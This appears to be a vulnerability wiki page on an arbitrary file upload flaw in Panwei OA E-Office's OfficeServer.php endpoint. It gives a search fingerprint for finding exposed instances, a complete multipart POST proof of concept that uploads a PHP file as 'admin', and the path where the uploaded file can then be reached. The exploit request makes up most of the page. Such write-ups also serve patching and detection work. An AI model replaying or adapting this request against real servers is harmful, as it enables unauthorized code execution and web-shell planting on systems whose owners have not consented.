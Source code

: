 # Panwei OA E-Office OfficeServer.php any file upload vulnerability

## Vulnerability Description

Panwei OA E-Office OfficeServer.php has a vulnerability to upload any file, and attackers can obtain sensitive information from the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA E-Office</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"eoffice10"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664244931813-962fe535-f9cc-451e-9273-025d29d673df.png)

Verify POC

```sql
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664244962450-c8cb2723-109b-4090-95f1-dd250e2719a1.png)

File upload location

```sql
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1664245227470-24772f48-202e-402f-8e7f-3c63c2f1ed51.png)
